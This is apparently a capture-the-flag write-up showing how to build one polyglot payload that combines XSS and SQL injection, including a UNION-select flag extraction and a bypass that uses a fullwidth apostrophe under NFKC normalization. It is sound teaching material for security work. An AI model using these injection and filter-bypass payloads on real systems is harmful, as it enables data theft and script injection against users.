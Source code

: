 
## Polyglot

> Craft a single payload that solves multiple challenges at once. The more challenges you solve, and the shorter your payload, the better your score.

The score was calculated using this formula: `score = (number of challenges solved × 1000) − payload length`

A polyglot payload is a specially crafted input that is valid in multiple different contexts or interpreters, allowing it to bypass security filters or be executed in more than one way depending on how and where it is used.


### XSS 1 and XSS 2

Let's start with the easy task of merging the 2 XSS payloads, we can put them one after the other: `'></script><img src=x onerror=alert(flag)>`

### SQL 1 and SQL 2

Things starts to get tricky for the SQL injections because of the quote from the payload of SQLi #1.

```sql
9 union select flag,flag,0 from flag
' union select flag,null,null from flag
```

We can use a SQLite comment "--" to remove it when it is un-necessary: `9 union select flag,flag,0 from flag--' union select flag,null,null from flag`

```sql
-- SQL1
SELECT * FROM users WHERE username = '9 union select flag,flag,0 from flag--' union select flag,null,null from flag--'

-- SQL2
SELECT * FROM users WHERE age <9 union select flag,flag,0 from flag--' union select flag,null,null from flag--
```

But I discovered later that I needed the quote to escape the Bash context, fortunately the description of the challenge is giving us a big hint about NFKC normalization. In short, unicode characters will be transformed into equivalent character. 

| Character | Unicode | Name                      | Normalizes to     |
|-----------|---------|---------------------------|-------------------|
| ʼ         | U+02BC  | MODIFIER LETTER APOSTROPHE | ' (U+0027)        |
| ʹ         | U+02B9  | MODIFIER LETTER PRIME      | ' (U+0027)        |
| ＇        | U+FF07  | FULLWIDTH APOSTROPHE        | ' (U+0027) OK     |

The payload is looking the same but the quote has been substituted to "＇".

```SQL
9 union select flag,flag,0 from flag--＇ union select flag,null,null from flag--
```
